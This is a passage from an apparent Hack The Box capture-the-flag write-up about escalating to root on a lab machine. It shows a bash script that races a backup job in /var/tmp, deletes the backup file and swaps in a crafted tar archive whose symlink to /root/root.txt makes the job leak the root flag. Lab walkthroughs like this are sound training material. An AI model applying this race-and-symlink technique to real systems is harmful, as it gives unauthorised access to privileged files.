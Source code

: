 Thanks to the previous command we can see every second the changes on the directory.

Theres one file named with a dot and followed by 40 characters. So we only need a **regex** for it

```bash
ls -la /var/tmp | grep -oP '\.\w{40}'
```

The above command help us to list that type of files.

```bash
#!/bin/bash

while true; do
    filename="$(ls -la /var/tmp/ | grep -oP '\.\w{40}')"

    if [ "$filename" ]; then
        echo "Found a file with a hash in the name"
        echo "Removing file..."
        rm /var/tmp/$filename
		echo "Changing the file..."
        mv payload /var/tmp/$filename
        echo "Done"
				exit 0
    fi
done
```

So with the following exploit we can save the hash name on a variable and rename or payload file in order to change the backup file.

Now the thing is to build a backup payload, first I am going to tar the `/var/www/html` folder and send it via python http server.

```bash
tar -zcvf payload /var/www/html
```

Once done let’s extracted with

```bash
tar -zxvf payload .
```

![Untitled](/HTB/tartar-9.png)

Now we only need to delete the existent index.html file and put as sudo a soft link to `/root/root.txt` as we are on our system we are able to do it.

```bash
rm index.html
sudo su
ln -s /root/root.txt index.html
```

Once executed we have now the modified backup file, now when the programs runs a diff with our modified data it’s gonna leak the root.txt flag.

We need now to send the crafted exploit and the payload previously zipped with tar to the remote machine in the same directory.

![Untitled](/HTB/tartar-10.png)

Once executed we receive the waited output.

Let’s check `/var/backups/onuma_backup_error.txt` for the **root’s flag**.

![Untitled](/HTB/tartar-11.png)

**Thank you for reading, and happy hacking! 😄**
